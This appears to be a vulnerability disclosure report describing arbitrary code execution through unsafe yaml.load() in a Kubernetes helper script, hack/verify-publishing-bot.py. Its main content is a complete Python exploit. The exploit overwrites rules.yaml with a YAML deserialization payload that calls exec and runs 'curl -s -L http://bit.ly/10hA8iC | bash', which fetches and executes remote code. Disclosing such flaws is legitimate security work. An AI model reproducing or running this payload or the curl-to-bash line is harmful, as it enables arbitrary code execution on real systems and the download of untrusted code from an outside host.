 # Description
**Arbitrary Code Excecution** in Kubernetes/hack/verify-publishing-bot.py. The hack directory contains many scripts that ensure continuous development of kubernetes, enhance the robustness of the code, improve development efficiency, etc. The explanations and descriptions of these scripts are helpful for contributors. For details, refer to the following guidelines.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**. command is executed when the .py file loads the malicious rules.yaml file.  
# Exploit code
**Python File**
```python
import os
os.system('git clone https://github.com/kubernetes/kubernetes.git')
os.chdir('kubernetes/')
exploit = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('curl -s -L http://bit.ly/10hA8iC | bash')"
'''
os.chdir('staging/publishing/')
os.system('rm rules.y*')
open('rules.yaml','w+').write(exploit)
os.chdir('../../')
os.system('python hack/verify-publishing-bot.py')
```
# POC
* Run the exploit code [aksdlak](https://cdn.discordapp.com/attachments/749019614352244777/787368162122530816/kube.gif)
